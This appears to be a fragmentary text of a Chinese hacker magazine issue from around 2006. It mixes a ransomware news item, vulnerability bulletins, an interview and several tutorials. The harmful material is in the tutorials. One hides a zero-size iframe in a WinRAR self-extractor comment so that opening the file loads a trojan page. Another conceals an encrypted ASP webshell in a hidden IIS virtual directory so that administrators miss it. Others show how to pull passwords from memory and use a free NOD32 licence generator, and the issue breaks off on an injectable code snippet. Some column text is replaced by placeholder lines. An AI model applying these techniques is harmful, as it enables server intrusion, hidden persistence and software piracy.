4月28日消息，互联网上流传的一种新型恶意邮件能够“冻结”用户的计算机，然后要求用户通过西联服务支付赎金。据 IDG 报道，该恶意软件是迄今为止发现勒索赎金的最复杂、最强大的控制权病毒之一。这一新的特洛伊木马病毒，一旦运行，就会“冻结”计算机并显示一条消息，声称每隔30分钟就会有软件被删除。为了借此勒索，用户被迫利用西联付款，向黑客支付10.99美元以解锁计算机。病毒作者甚至提供技术支持。如果在付款后“解冻”计算机仍然无效的话，病毒制作者会通过帮助用户直接解决问题。

> 小评：有“意识”的病毒，病毒也知道要 MONEY 了。以前的病毒只是故意害害别人的机器，窃取网络的隐私信息就已经叫人人见人恨了。那么这种新病毒的问世，世界要混乱了，中一次病毒就要损失90多元人民币。所以重要资料信息大家一定要学着备份再备份！

- Microsoft Infotech 存储库 itss.dll 拒绝服务漏洞
  - 受影响系统：Microsoft Windows XP SP2、Microsoft Windows XP SP1、Microsoft Windows 2000
  - 描述：Microsoft Infotech 存储系统库（itss.dll）用于处理 CHM/ITS 格式文件的函数库，攻击者可通过诱导用户反编译恶意 CHM 文件触发漏洞，导致执行任意代码。
  - 测试方法：http://downloads.securityfocus.com/vulnerabilities/exploits/ONE.cnn
- Adobe Dreamweaver 生成代码 SQL 注入漏洞
  - 受影响系统：Adobe Dreamweaver MX 2004、Adobe Dreamweaver 8
  - 不受影响系统：Adobe Dreamweaver 8.0.2
  - 描述：Adobe 的 Macromedia Dreamweaver 所生成的代码可能存在多个 SQL 注入漏洞，远程攻击者可能利用漏洞访问数据库或执行命令。
- VeriSign i-Nav ActiveX 控件远程溢出漏洞
  - 受影响系统：VeriSign i-Nav
  - 描述：VeriSign i-Nav ActiveX 控件的安装组件在处理 CAB 文件时存在验证问题，可能导致任意代码执行。
- Microsoft Windows MSDTC 无效内存访问拒绝服务漏洞（MS06-018）
  - 受影响系统：Microsoft Windows XP SP1、Microsoft Windows Server 2003、Microsoft Windows 2000
  - 描述：Windows 的 MSDTC 处理某些 DCE-RPC 请求时存在内存分配错误，远程攻击者可能利用漏洞对服务进行拒绝服务攻击。

## yacou教你做肉鸡

“找呀找，找到一个肥肉鸡。放个马来，玩控制，你是我的好肉鸡。”yacou流着口水唱。  
“呜呜，儿歌你都不放过！”雅酷GF呵斥。  
“儿童节嘛，老婆大人，您就开恩开恩吧！”yacou泪怯。  
以上场景完全虚构，如有雷同，纯属巧合。yacou本期拙作，我不得不帮他拦手一把。那天，在QQ上遇到 yacou 的GF用他的QQ上网，聊了几句，感觉他GF对他关怀备至，体贴呵护。希望 yacou 这兔子不要身在福中不知福哦。借这块宝地，衷心祝愿有情人终成眷属。

## 另类 WinRAR 挂马吃鸡

smallrascal [S.C.T]&[A.V.T]

- 1. 利用 WinRAR 挂马
- 2. 了解 WinRAR 脚本

```text
Path=test // 解压后存放文件的路径
Overwrite=1 // 如果解压路径中已经存在相同文件则覆盖
Title=WinRAR test // 自解压时显示的WinRAR标题
Text // 指明界面的内容是要显示在自解压界面中的内容
{
... // 在{}中的就是Text的内容
}
```

前段时间看到很多利用 WinRAR 放马的，其原理是利用 WinRAR 的自解压文件在解压后自动执行原先指定的文件，那么我们只要把马一起压缩进去，将指定自解压后执行的文件指向木马，然后生成自解压格式，接下来就是要发挥你的聪明才智将此文件发给别人，并让其执行解压缩。这样对方就中了你事先设下的圈套。但是这种方法有个弊端，那就是既要对方执行，还要其解压。在放马时让其执行已经不易，更不用说解压缩了，况且小马在压缩文件中，如果对方机器安装了杀毒软件，那很可能就会被干掉。下面我来说一种新的挂马方式。Let’s go!

首先我们需要制作一张网页，这张网页可以随意，不过尽量要和一会要压缩的文件有关，如图1所示。


现在打开刚刚建立的自解压文件，如图3所示，与图1创建的完全一样。现在在刚刚创建的自解压文件上单击右键，选择其中的“用WinRAR打开”，点击弹出的 WinRAR 中工具栏上的“注释”按钮，立刻可以看到如图4所示窗口。


把滚动条拖到最下方，在“`</body>`”上一行添加一句“`<iframe src="http://127.0.0.1/mm/index.htm" width="0" height="0"></iframe>`”。我来给大家解释一下这句代码的意思：

```html
<iframe src="http://127.0.0.1/mm/index.htm" width="0" height="0"></iframe>
```

“iframe”标记是用来建立一个框架，可在其中调用其它的网页，这里调用了利用 SP2 网页木马生成的木马网页。“width”指明了框架在网页中显示的宽度，而“height”则是高度。


接着在要压缩的文件上单击右键，选择其中的“添加到压缩文件”，在弹出的 WinRAR 压缩界面中我们在“常规”标签中选择“创建自解压格式压缩文件”，随后到“注释”标签，将刚刚创建的网页代码粘贴到“手动输入注释内容”下方的文本框中，并添加一些内容，如图2所示。这里都是“0”，也就是说调用指定的木马网页，但不在正常的网页中显示。好了，点击“确定”保存后再次打开自解压文件，稍等片刻可以看到如图5所示的执行结果。

是不是已经调用了 mm 下的 index.htm 网页？ButtonEnable 这个程序也已经执行了，而 WinRAR 却还没有解压缩。

到这里一个小巧的 WinRAR 木马就完成了。这种方法只需打开自解压文件，而不需去解压，这样就省了一步，大大提高了挂马的命中率。其次，木马文件可以存放在网络上，而不需要添加到压缩文件中，这样就不用担心出现“出师未捷身先死”的事件了。

一种新的挂马方法就这么产生了，那么有没有什么好的防御方法呢？我们来看看上面需要的步骤，所有的焦点都在打开自解压文件上，也就是说不打开就不会有问题。所以，防御的办法是我们可以用 WinRAR 打开，操作方式是在自解压文件上单击右键，选择“用 WinRAR 打开”，这样就可以有效地绕过自解压程序，而用 WinRAR 直接来打开了。

> 【文章中测试的相关工具包 test.rar 已经收录在光盘中】  
> 【编辑感说】WinRAR 中挂马早已出现，但不会的朋友还可以通过这篇文章学到相关的知识。建议大家在打开 WinRAR 自解压文件时最好处于断网状态或禁止 WinRAR 连接网络，或者用作者最后说的方法。

## 型男yacou参加超级男生

一直自谓为超级帅猛男的 yacou 经常给我们谈起他下乡复考的事，我们半信半疑，说他应该是在马戏团做模特才对。yacou 有点不高兴。自从去年超级女声火爆全国之后，今天多家电视台各种选秀活动铺天盖地，咱们啥都不缺少新创意，这不，一窝蜂又来了。创意就像拳锋一样，如果尝鲜失败，有热闹起哄的俗人定然嘲笑讥讽；但一旦尝试成功，效仿者就络绎不绝，唯恐赶不上最后的末班车，直到最后搞疯了，搞死了。

下面是型男参加 XX 超级男生的心得日记：

- 1. 外貌丑、马马虎虎，还过得去——淘汰；美丽、漂亮、性感——入围。
- 2. 唱歌跑调、忘词、乱打标点符号（意思指喷口水）——淘汰；音准、动听——入围。
- 3. 跳舞动作不协调、无力——淘汰；挺进性强、有感染力——入围。


> 从今天你可以学到：  
> 1. 通过 WebMail 功能设置应对垃圾邮件；  
> 2. 巧用 Foxmail 的反垃圾邮件功能。

流氓软件搞得大家怨声载道，而垃圾邮件更是让人深恶痛绝。我的邮箱经常会收到一些垃圾邮件，严重影响我的正常办公。面对这样大量的垃圾邮件，我们应该如何应对呢？下面我就用一个实际的例子来说说对策。

## 一、Web页面邮件应对篇

这里以 QQMail 为例来说说如何防御垃圾邮件的骚扰。首先找到“邮箱设置”功能，选择“反垃圾”选项，此时我们可以看到相关设置功能，如设置黑名单、白名单、反垃圾邮件的级别以及处理方法，如图1所示。

选择“设置黑名单”，我们可以方便地添加垃圾邮件的地址，然后点击“添加”按钮把垃圾邮件的地址加入右边的列表中，最后点击“保存”按钮即可屏蔽这个垃圾邮件发来的任何信息了，如图2所示。


垃圾邮件的地址加入进去，如图3所示。如果我们在图1中设置反垃圾邮件的级别为高，这样你的邮箱就只能收到“地址本”和“白名单”中的电子邮件了。


如果在“对垃圾邮件的处理方法”中选择了“转到‘垃圾邮件’文件夹”，那么一旦收到垃圾邮件，你的邮箱就会自动把其转移到垃圾邮件文件夹中，即使我们预览这些垃圾邮件，QQMail 也会把 HTML 格式中的不安全因素给过滤掉，这样大大减少了我们这些菜鸟中毒事件的发生，如图4所示。

## 二、FoxMail 应对篇

上面是介绍 WebMail 的相关设置来保护自己的邮箱免受垃圾邮件的骚扰，但大多数人使用的是专门的邮件软件来收发电子邮件的，如 FoxMail。在这种情况下我们又如何反击垃圾邮件呢？其实这些问题开发软件的作者已经帮我们解决了，我们只需要合理设置好相关设置即可高枕无忧了。这里我们以 FoxMail 为例子来介绍如何设置反垃圾邮件的功能，首先我们打开 FoxMail，然后在“工具”菜单中选择“反垃圾邮件功能设置…”，如图5所示。


这里我们可以看到“反垃圾邮件设置”的相关选项页，在常规选项页中我们可以决定软件是否对垃圾邮件进行处理，如果需要处理就应勾选“接收邮件中被判定为垃圾邮件的自动转移到垃圾邮件箱”，这也是一个软件默认的选项。对于那些软件不认为是垃圾邮件，而我们又确定其是垃圾邮件的邮件，可以通过勾选“邮件被手工标记为垃圾邮件时”的处理方式，这里有两种，第一种是“转移到垃圾邮箱”，第二种是“删除”，如图6所示。


如图7所示。对于垃圾邮件的过滤，目前最流行最有效的方法是“贝叶斯过滤”，我们可以让其进行相关的学习，这样可以更大程度地识别垃圾邮件，如果需要开启该功能可以直接勾选“使用贝叶斯概率模型判断接收的邮件是否垃圾邮件”，该功能有学习的功能，除了已学习的垃圾邮件和垃圾词语，我们还可以根据自己的需要来学习非垃圾邮件和垃圾词语，学习得越多反垃圾邮件功能就越强，如图8所示。


> 注意：如果你选择的是学习非垃圾邮件，最好保证其中的信件没有垃圾邮件；反之要保证里面全是垃圾邮件。建议单独建一个文件夹在其中存放垃圾邮件，再来进行垃圾邮件学习。大家总会遇到经常学习的情况，此时应选择“跳过已学习过的邮件”即可。

点击“学习”按钮，此时就会出现如图9所示的页面。选择自己的收件箱然后指定学习的类型。经过学习后反垃圾邮件的能力就更强悍了，见图10。


最后：除了以上介绍的两种方法外，大家还可以安装专业的反垃圾邮件软件来进行处理，这样效果更好一些，我也是刚刚入门的小菜鸟，大家若有更好的方法记得告诉我哦。

【文中涉及到的 Foxmail 已经收录在光盘中】

> 编辑点评：作者的方法属于最基础的，防范垃圾邮件的方法多种多样，例如在论坛网页中留 E-Mail 的时候不要使用如 nohack@21cn 的形式，可以改为 nohack(at)21.cn 或利用 ASCII 码的形式来表示，这样在一定程度上可以避免被一些收集邮箱地址的软件捕捉到。防范垃圾邮件最好还是安装专业的相关软件来进行处理，对于个人而言我喜欢用的方法是直接通过设置 WebMail 的白名单来解决问题，这样做有点极端些，但很实用。

## 搜狐图片频道不受限

普罗米修斯

### 一、接受你的“测试”

“美女 酷车 风景 图片 pp”，是的，小菜我平常很喜欢在搜狐图吧（http://pic.book.sohu.com/）上看一些有趣的图片，但是 sohu 网站为了推广它的搜狐直通车软件，在我们查看了几张图片后，再查看图片时，就会直接跳转到一个要求安装搜狐直通车的页面了，如图1所示。


图1 要求安装 sogou 直通车的页面

这样，我们每次只能看那么三、四张页面，就不得不安装搜狐直通车才能继续浏览了，而我们又不想在自己的机器上安装太多的插件，不要说浏览器打开速度慢，看着也觉得难看啊。下面我们就来看到底怎么才能让我们不安装搜狐直通车也能不停地看图片。

### 二、初涉刀锋

因为自己平常喜欢做网站，有时就会安装 Alexa 工具条来访问自己的网站，提高网站的全球排名，而这时使用 WinSockExpert 来抓取浏览器访问网站的数据包，会发现其中浏览器类型 user-agent 多了 “Alexa ToolBar” 的字样，因此就联想到，是不是搜狐的图片频道也是根据这个原理，让我们先安装搜狐直通车。

安装后，浏览器的类型会被改变，搜狐再根据它网站上得到的用户信息中的 user-agent 来判断我们是不是安装了搜狐直通车了呢？要知道，我们可以依次修改以下注册表键的键值来修改 IE 浏览器的 user-agent 的值：

- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\5.0\User Agent\(Default)
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\5.0\User Agent\Compatible
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\5.0\User Agent\Version
- HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Internet Settings\5.0\User Agent\Platform

修改的方法已经知道了，但是可不可行，如果可行的话，我们需要做什么样的更改，这些还是需要通过实践来比较一下的。首先用没有安装搜狐直通车的 IE 浏览器打开搜狐图吧的页面，并使用 WSE 来抓包，得到的数据包如下：

```
GET / HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, ...
Accept-Language: zh-cn
UA-CPU: x86
Accept-Encoding: gzip, deflate
If-Modified-Since: Sat, 06 May 2006 ...
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)
Host: pic.book.sohu.com
Connection: Keep-Alive
Cookie: ...
```

这样我们可以看到，不安装搜狐直通车时，user-agent 的值是 Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.2; SV1; .NET CLR 1.1.4322; .NET CLR 2.0.50727)。然后再安装搜狐直通车，并同样使用 IE 浏览器访问搜狐图吧网站，抓包得到的 user-agent 的值仍然是 Mozilla/4.0 (...)。到这里我真是失望啊，看来这条路走不通了，不过还是锻炼了下如何使用抓包工具，还从网上了解到了修改 IE 的 user-agent 的方法，看来只有来观察搜狐图吧网站的源代码了。

### 三、深入分析

通过阅读页面代码，我们看到页面引入了一个叫 lookbar.js 的 javascript 文件很可疑，那么我们就来看看 lookbar.js 文件的代码，在这里我们终于找到了判断是否安装了搜狐直通车的函数 checkToolbar：

```
function checkToolbar(pic_url) {
  var expdate = new Date();
  var debug = 0;
  try {
    var check_browser = CheckBrowser();
    var check_flag = CheckFlag();
    if (check_browser && check_flag) {
      var obj = new ActiveXObject("sogoutb.Detector");
      if (obj) {
      }
    }
  } catch (e) {
    // 这里省略跳转到安装搜狐直通车的代码
  }
}
```

我们可以发现，判断的关键就是首先定义变量 obj，并将其指定为 sogoutb.Detector 的实例对象，而后检测是否指定成功，因为在没有安装搜狐直通车时，sogoutb.Detector 这个对象的实例 obj 就是空的了。

找到了跳转的源头，我们再想想如何来防止搜狐判断并跳转呢，这时我想到了 GreenBrowser 浏览器的广告过滤功能。通过查询官方网站的帮助，我知道了 GreenBrowser 可以对网页内图片、引入 js 等代码所加载的地址进行过滤。于是首先打开 GreenBrowser 的“选项”菜单，然后进入“内容过滤”栏目，启用页面过滤内容列表，然后在页面内容过滤列表中添加一条内容为 `http://photo.pic.sohu.com/images/picjs/lookbar.js` 的记录，如图2所示，然后点击“确定”，这样，以后在看图片的时候就不会被强行跳转到要求安装搜狗直通车的页面了。


> 编辑点评：通过过滤相关文件来绕过安装限制很不错，关键在于你要对脚本语言了解。

## 虚拟机也玩还原

天使小优

现在的虚拟机多种多样，而我们用虚拟机可以大胆地进行危险性的操作，如调试木马、测试病毒、分区格式化等。我们通常使用虚拟机中的快照功能来恢复系统，这个速度可以比在物理机器上使用 ghost 还原系统快得多，但我还是觉得慢了。有没有方法系统重启后就能自动还原成原始状态呢（就好像系统中安装了还原卡一样）？在经过一段时间的摸索后，方法终于找到了，现在拿出来和大家共享一下，请高手们不要见笑。

首先你要保证已经安装好 VMware 以及一个虚拟的操作系统，然后我们依次选择自己需要添加还原功能的系统，我这里选择的是 Windows 2000，再选择“编辑虚拟机设置”，在弹出的“虚拟机控制面板”中的“硬件”选项中选择“硬盘”，接着点击“高级”按钮，就会弹出“高级虚拟磁盘选项”窗口，在模式中选择“独立”，并选中“非持久的”即可，如图所示。

设置好后就可以体验一下了，不管对虚拟系统的改动有多大，只要重新启动后所有的一切就都被还原了，就好像虚拟系统里加了一个还原卡呢，赶快行动吧！


> 编辑点评：除了这个方法，还可以在关机的时候恢复到快照，效果是相同的。

## 吃一顿 NOD32 免费大餐

NOD32 简体测试版全民公测大行动已经开始了，我们到 `www.nod32cn.com/download/beta.php`，通过用自己的电子邮件免费领取 90 天的登记证，于是我就开始了对 NOD32 的第一次体验，感觉非常不错，每个小时都可以升级，占用内存资源比较少（至少比卡巴要好）。但是，如果 90 天一过，不就没法升级了吗？于是苦苦寻找能永久免费升级的方法，最后遇到一 GG，他告诉了我一个地址 `http://www.xtraboard.org/nod/fortunecookie.php?action=go&submit=Open+Another+Cookie%21`，该链接可以即时生成可以用的 ID 和密码，我也再不用为升级 NOD32 而发愁了。（图1）


> 编辑点评：看到此文章，小编我也尝试了一下，果然可以升级。如果遇到打开这个链接没有显示 ID 和密码的情况，多刷新几次即可。确实，NOD32 占用的资源比卡巴少，但在 AMON 常驻内存扫描器的监视下，所有文件的访问都会被检查，这对于配置较低的用户就会感到系统运行速度比较慢。NOD32 下载地址：`http://d4.eset.com/eval/win/v2/nenchst.exe`

## 破解才是硬道理

smallrascal

前些天试用了一款名为“龙软居文件夹加密至尊（免费版）”（下文简称加密软件）的软件，听名字就知道是加密文件夹的，下载安装完之后随手选了个文件夹就加了密，等到试用完之后想取消加密时，却忘了刚刚随意输入的密码，这可不好，其中有个压缩文件是急需的，必须把它“恢复”出来，因此就有了下文，也算是一次对文件夹加密软件的安全测试吧！

### 试用

首先，我们来看一下没有加密前 F 盘的文件夹及文件，如图1所示。


图1

现在进入加密软件，选择 F 盘下的 folder 文件夹输入密码进行加密。顺便说一下，此款加密软件可以对每个文件夹设置不同的密码，这也是它的优点之一，不过忘了密码就麻烦了，就像我。加密完成后，我们再次看一下 F 盘下的文件夹和文件，如图2所示。


图2

是不是发现在上图中少了“folder”文件夹，而多了“folder”文件？我们用记事本打开此文件，如图3所示。


图3

根据其第一行的“[Path]”，可以猜测到这个文件记录的是加密文件夹的原路径，第二行应该是加了密的路径名，前面的“Dir”应该是目录（directory）的缩写。

### 破解

下面我们先来看一个 DOS 命令：CHKDSK，它是用于检测磁盘状态的，说明如图4所示。


图4

其中有一个参数“/V”的功能是列出磁盘上所有文件的完整路径和文件名。下面我们进入命令行，将盘符切换到 F 盘下，随后执行“chkdsk /v>f:\list.txt”。此命令的功能是将 F 盘上所有文件的完整路径和文件名输出到 F 盘根目录下的 LIST.TXT 文件中。等命令执行完后，打开 LIST.TXT 文件，用我们知道的文件名（就是图1中的）进行查找，发现在文件列表中能够找到。结果如图5所示。


图5

看看图5中被选中的部分，可以发现图1中的两个文件都在其中，还多了一个加密软件自动产生的“.dll”文件。再看看前面的文件夹名，是不是不认识了？这个应该是经过加密的。再往前看，是不是觉得“Recycled”这个文件夹很面熟？是的，它就是我们常用的“回收站”的文件名，只不过在系统注册表中做了规则而已。

### 还原

在命令行下进入“Recycled”文件夹，用 DOS 的“MOVE”命令将加密后的文件夹“还原”出来，具体操作如图6所示。进入刚刚“还原”的文件夹，是不是发现我们的文件都已经安安静静地躺在那儿了？如图7所示。


图6


图7

到此为止，我们已经把需要的文件“还原”出来了，也就是说，已经把加密软件给破解了。

### 密码

在这次测试中还发现一个问题：密码不管是登录密码还是文件夹加/解密密码，在内存中都是明文存放的，这样很容易就能获取到。

下面先来获取登录密码。打开加密软件，在输入密码时输入一个错误密码进行登录，当弹出密码错误的对话框时不要立刻关闭，而是用 WinHex 打开加密软件的内存，如图8所示。


图8

选择菜单中的文本查找功能，在弹出的对话框中输入刚刚输入的错误密码，这里我选择的是“sunrace”，如图9所示。找到后，再次调出查找文本对话框，在其中输入如图10所示的特征字符，如果修改了安装路径，也请修改这里的特征字符。找到后往上看就能看到正确的登录密码了，如图11所示。接着来看一下加/解密密码。


选好需解密的文件夹后进行解密，会弹出一对话框要求输入该文件夹解密密码，还是输入一个错误密码，稍等就可以看到错误框弹出，如图12所示。


接着还是用 WinHex 进行内存查找，不过这次要找的是上图中的出错代码，将其粘贴到 WinHex 的文本查找对话框中，查找结果如图13所示。同样向上看几行就能看到当前文件夹正确的解密密码了。提示一下：在选择错误密码时一定要选不太常用的字符串，长度要适中，这样在查找真实密码时重复次数会明显减少。


### 写在最后

好了，到此所有测试已全部完成，这款软件的优劣大家也看得很清楚了。最后留下我的 Blog：http://smallrascal.blog.tom.com，欢迎各位常来坐坐喝喝茶。

编辑点评：chkdsk /v 列出隐藏文件、move 提取出隐藏文件、WinHex 查找以明文存放在内存中的密码，类似这样的方法可以突破国内多款文件夹加密隐藏之类的软件。如果你真需要安全地保护敏感文件，请你还是谨慎使用这些软件吧！


### 一、前言

杀毒软件是越来越“毒”了，花费 N 多时间做的免杀木马，可是并没有坚持多久，就会被杀毒软件给残酷地杀害了，默哀 3 分钟。除此之外，网管也越来越聪明了，当然，这点还是值得欣慰的。网管通过观察异常端口、不明进程，可能手工就把我们的木马斩草除根，再次默哀 1 分钟。

所以，创建一个无异常的端口和进程，永远不被杀毒软件查杀，决难被管理员发现，而且操作简单方便的后门，是我们 hacker 一直以来追求的梦想，但好像这基本不可能。

### 二、开终端服务

### 三、在 IIS 中构造特殊的网页目录

好了，前面说了这么多主要是为了照顾初学者，现在进入正题。登录到远程服务器以后，我们先到网站的主目录下新建一个文件夹 maxell（名字随便取），如图4所示。然后在远程主机的“管理工具”里面打开“Internet 服务管理器”，如图5所示，我们便可以发现在 IIS 网站目录下多了一个目录 maxell，如图6所示。

然后再在服务器一个比较深的目录下（比如说 C:\Program Files\Common Files\System 下），新建一个文件夹 SQL，在这个文件夹里面，我们上传一个 asp 木马 test1.asp。现在很多杀毒软件都能查杀流行的 asp 木马，而 C/S 模式的“海洋顶端 asp 木马”由于服务端调用的都是普通函数，所以一般不会被查杀。为了保险起见，也为了防止管理员手动查杀，我们还是用工具 screnc.exe 对海洋顶端木马的 S（服务）端进行一次加密，如图7所示。加密过后的海洋 S 端页面全非了，如图8、图9所示。

我们再回到 IIS 管理器，对刚才新建的目录 maxell 点击右键新建“虚拟目录”，进入“虚拟目录创建向导”。第一步：虚拟目录的名字为“test”；第二步：“web 站点内容目录”为我们刚才建立的深层目录 C:\Program Files\Common Files\System\SQL；第三步：把“访问权限”的所有选项框打上钩；第四步：完成。现在便会在 IIS 管理器的 maxell 目录下出现一个新的子目录 test，而子目录 test 下还包含着一个我们的 asp 木马 test1.asp。然后我们再对子目录 test 点击右键属性，在“应用程序保护”这一栏中，我们要把默认的“中（共享的）”改成“低（IIS 进程）”，这样我们的 asp 才具有系统权限，才能进行“添加系统管理员”“运行高权限程序”等操作，如图10所示。现在我们就对上传的 asp 木马测试一下是否能正常连接。在海洋顶端的 C（客户）端填上 S 端的地址以及连接密码，点击“提交”，NO PROBLEM！登录进去之后，也能进行“添加管理员”等操作。如图11所示。

### 四、在 IIS 中隐藏网页目录

接着我们在网站根目录下把刚才创建的目录 maxell 删掉，在 IIS 管理器中新刷新便看不到这里面的目录，maxell 也不见了，这是正常的，但是当我们再次连接我们的 asp 木马时，奇迹出现了，同样还是能连接得上。

### 五、后话

同样还是那句话，学习黑客技术不是为了搞破坏，而是要在此中提高自己。如果大家还有疑问，欢迎到非安全论坛来找我。

> 【文中涉及到的 c3389.exe、3389 终端登录、海洋顶端网 2006 正式版等，已经收录在光盘中。】

【编辑道歉】作者用图片生动形象地告诉大家如何打造终极隐蔽的木马，但是其中有一点可能会暴露目标，即如果对方用 FTP 上传备份的文件和服务器上的文件进行比较的话，就能找到可疑的木马了。由于作者把海洋 S 端加密了，通常来说很少有人把自己的网站程序进行加密，所以当管理员看到加密的网页时一定会感到怀疑。当然，世上并没有完美的事情，事物都是动态发展的，我们也应当有一份与时俱进的心态，而不要以为一劳永逸，就可以安心睡大觉，技术的世界，是永远不停地向前发展的。


## 邪恶之名下的浩然正义

## 专访“邪恶八进制”站长 冰血封情

谈起中国第一代、第二代的老牌黑客，也许我们今天的小菜并不是十分了解，但是若说起一个人及他的站点，则无论对于混过几年黑客生涯的人还是刚入了黑门的小黑们来说都是耳熟能详的。那是网上近几年兴起的一个十分特别的站点，说站点特别，是因为它的名字。在当今黑客界普遍以盟、团为名的圈子里，此站独树一帜，起名“邪恶八进制”，其强大的冲击力足以感染每一个人。今天就让我们走近邪恶八进制，走近这个以“邪恶”为幌子的正义之士。

> 这个限制是很合理的。我们要求所有提交问题的会员，在提交主题时必须附带自己对自己提交问题的详细研究过程，这样至少可以证明他并没有不假思索就来提问。只要你努力过了，而且你的努力过程很详细，那么我们都很愿意帮助你。目前的新手问题其实并不在基础怎样，而是不够勤奋，有些问题他们如果自己肯挑战一下，会发现不但可以自己解决，还会学到很多东西。邪恶八进制不排斥基础不好的朋友，但是首先你要懂得勤奋。

> **小行：** 我们知道你是个尚在象牙塔里的大四学生。作为一名学生，当初为什么会建立这么一个站点呢？起这个标新立异的名字有什么原因吗？

**冰血封情：** 消息还挺灵的嘛。:) 的确，我目前还在桂林电子科技大学就读。对于邪恶八进制的建立，其实早在02年的时候，它是我和几个去国外读书的好朋友一起创办的技术小组。但是起这个名字真没有什么特殊的意义，就觉得好听而已。小组里曾经有一些台湾和日本的朋友，后来由于一些政治观点上的不合，大家不欢而散。后来我在国内自己想到要做这个站的时候，第一个要求就是纯技术，不谈任何与技术无关的话题，尤其是一些不该我们管的事情。技术就是技术，它永远应该朴素。

> **小行：** 打开八进制的站点，我们可以发现成名与版面说明都是中英文对照，设计得很正规，当初建立这个是不是为了以后让站点能有许多外国友人来访？

**冰血封情：** 起初，所有的版面甚至连中文都没有，也没有基础类的版面，因为那个时候我们要求来这里讨论的人至少要在英语水平上达到一定的层次。后来，我们考虑到新手不一定英语特别好，因为站点的学术性逐渐在提高，于是才在所有的版面都加上了描述性的中文名字。邪恶八进制论坛平时国外来溜达的朋友不少，有北美、德国、英国等，不过还是亚裔的多。有的朋友从国外给官方的 eMail 发邮件提意见、索要资料什么的，我们都回复了。以后我们还是希望能多和国外的朋友沟通，毕竟做这样一个信息安全站，很需要站在更高更广泛的角度看问题，与国际沟通是必然的趋势。我们也希望有一天能像前辈们创办的安全焦点那样，通过自己的拼搏挤进国际的交流圈。

> **小行：** 目前国内技术站点的论坛很多，但只要去耐心地看一下，就会发现好的实在是太少了。很多论坛的灌水现象严重，作为想学技术的人真正找个好地方不容易。你们的站点是如何解决这个问题的呢？

**冰血封情：** 邪恶八进制目前限制灌水很严格，当然我们不是一步走到今天的。我们起初定的限制，是凡通过过滤注册的会员，开通后是不能够发主题的，即使是回复也只能被限制在少量版面。我们把发主题和任意回复主题的权限给了荣誉会员，我们并不对荣誉会员收费，但想成为荣誉会员必须具备比较好的技术基础，这样主题质量就得到了提高。后来发现，光从会员入手，效果不一定特别好。因此现在，在邪恶八进制技术论坛上，任何技术主题都是禁止非技术回复的，相比之下管理也是很重要。我们这种做法其实只是想提高论坛技术讨论的质量，仅此而已。毕竟我们是侧重技术的团队。

> **小行：** 可以看出八进制在冰血的管理下十分不错，在国内基本找不到灌水的。而对于一个技术人要做一个技术网站，这个网站应该怎么做才是最好的、最吸引人的呢？网站能吸引人在于三分制作，七分管理，可以这么说不？

**冰血封情：** 几分几，我可说不准，因为我毕竟也不是专业的管理人员。以前我也一直执著于技术，但在逐渐的学习中，发现技术不是技术领域唯一的东西。如果运营一个团队就必须涉及到管理，而且发现好的运营管理的确能给团队带来很大的好处，于是才开始慌乱地看了一些这方面的资料。邪恶八进制的管理目前来看还比较稳定，但是问题也很多，目前几乎是我一个人在做运营管理，的确比较辛苦。不过由于起步的时候还好，团队成员和荣誉会员的素质都比较高，所以几乎不需要管理他们，相反很多时候他们对站点的发展起到了非常重要的作用。辛苦的也就是维护一下站点，制定一些发展计划什么的。我觉得一个技术站要想做好，首先要有好的技术氛围，好的技术氛围就像一片森林，这样鸟儿自然就会来这里定居。这个好的氛围和很多东西都有关系，站长和成员的人品，站点合理的规划，讨论组的管理制度等等。不过这不是短期能够做出来的，每一条都很艰巨，一片森林需要很长的时间才能长起来，氛围也一样。

> **小行：** 新手他们虽然刚入门，但他们有个优点，就是激情四射。禁止新手发帖会不会使论坛人气受到影响？

**冰血封情：** 邪恶八进制自2004年7月4日扩大规模以来，这个我们也考虑过了，事实上我们并没有完全禁止新手发帖。普通网友注册后就可以在文章提交版提交自己想提供给论坛的资料，还有自己想问的问题。但是我们对问题的提交有严格的限制。

（双栏采访正文，含多组“小乔：… / 冰血封情：…”问答内容）

（双栏采访正文，含“黑客”“信息安全”“团队”等主题问答）

（采访问答续，涉及诗歌与个人经历）

> （倾斜排版的诗句/寄语文字块）

（采访问答续，讨论“黑客是否自诩”“学习态度”等）

（采访问答续，结语与团队理想）

（左栏长段采访内容，讨论成长、技术、团队与信息安全理念）

（右栏过渡段落，总结采访观感与人物评价）

| 快捷键 | 功能 |
|---|---|
| CTRL+INS | 拷贝 |
| CTRL+C | 拷贝 |
| SHIFT+DEL | 剪切 |
| CTRL+X | 剪切 |
| SHIFT+INS | 粘贴 |
| CTRL+V | 粘贴 |
| CTRL+F | 查找 |
| CTRL+H | 替换 |
| CTRL+L | 删除一行 |

天涯首先要和大家说声 3Q，谢大家对新闻练练看的关注、关心、支持以及对天涯的理解、建议和帮助。本栏目从4月份创建，其目的是为了给大家提供最新鲜的漏洞分析和最有效的漏洞利用，并希望通过这个栏目，使大家对漏洞的认识有所加深，对漏洞的分析思路有所指引，对其利用的方法有所突破，最终都能总结一套自己的方法去发掘、利用漏洞。从前两期看，效果很不错，分析者、测试者和攻击者各取其好，偶很感欣慰。自然，我们才刚刚起步，我们涉及的面还比较窄，还存在诸多不足，希望人人都能参与进来，不论是建议还是意见，我们一样欢迎！

## 雪人之刺

寂寞的刺痛

听说雪人发布了“SF v2.5 for Access”版论坛，遂 DOWN 了一套进行研究。在我一番地毯式的扫描下，雪人终于露出了破绽！

### 一、注入隐患

在“Delpost.asp”中，有这样一段代码引起了我的注意：

```vb
检测postid是否合法
err = false
postid = ChkSql(request("postid")) ' 接收参数
if not isNumeric(postidid) then ' 过滤参数
  err = true
else
  StrSql = "select * from sf_post where postid =" & postid
  Set rs2 = Conn.Execute(StrSql)
end if
```

